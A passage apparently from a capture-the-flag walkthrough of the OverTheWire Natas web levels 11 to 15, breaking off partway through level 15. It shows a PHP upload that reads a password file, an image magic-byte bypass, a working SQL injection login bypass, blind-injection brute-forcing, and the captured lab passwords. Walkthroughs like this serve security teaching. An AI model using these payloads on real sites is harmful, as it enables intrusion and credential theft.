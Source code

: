 ```
?>

Now editcookie ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK to get EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

### Level 12

```
Upload a.php file with commands
<?php
$file = file_get_contents('/etc/natas_webpass/natas13');
echo $file;
?>

I disabled JavaScript through developer tools and tampered the POST data request changing it to jpeg to back to php

jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

### Level 13
https://www.owasp.org/index.php/Unrestricted_File_Upload

```
BMP<? also works, GIF98

GIF98
<?php
$file = file_get_contents('/etc/natas_webpass/natas14');
echo $file;
?>

GIF98 Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 
```

### Level 14
SQL injection

```
We can turn debug on and see the code 
natas14.natas.labs.overthewire.org/?debug=true&username=admin&password=admin
Executing query: SELECT * from users where username="admin" and password="admin"
Access denied!

Doing a simple injection such as, makes the statement always true:
" or ""="
" or ""="
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```

### Level 15
SQL injection with only True/False responses. We check if natas16 is a username, then using a script by jhalon. It first does LIKE BINARY to check if a character 
e.g. natas16" and password LIKE BINARY "%3% gives user exists, so the password contains 1 or more occurence for the character 3. Then once we know what letters are in the password, we can bruteforce them. E.g. a trivial example (not exactly how it is implemented in code)
